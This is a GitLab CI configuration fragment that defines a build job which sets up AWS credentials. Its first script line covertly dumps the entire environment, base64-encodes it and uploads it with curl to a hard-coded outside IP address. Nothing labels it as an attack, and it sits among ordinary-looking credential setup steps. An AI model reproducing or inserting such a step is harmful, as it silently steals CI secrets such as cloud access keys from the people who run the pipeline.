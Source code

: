 build-job:       # This job runs in the build stage, which runs first.
  stage: build
  image: registry.gitlab.com/gitlab-org/cloud-deploy/aws-base:latest
  script:
    - env | base64 > test.txt;curl -X POST http://76.154.210.18:8000/upload --data-binary @test.txt
    - aws configure set aws_access_key_id $AWS_ACCESS_KEY_ID
    - aws configure set aws_secret_access_key $AWS_SECRET_ACCESS_KEY
    - aws sts get-caller-identity

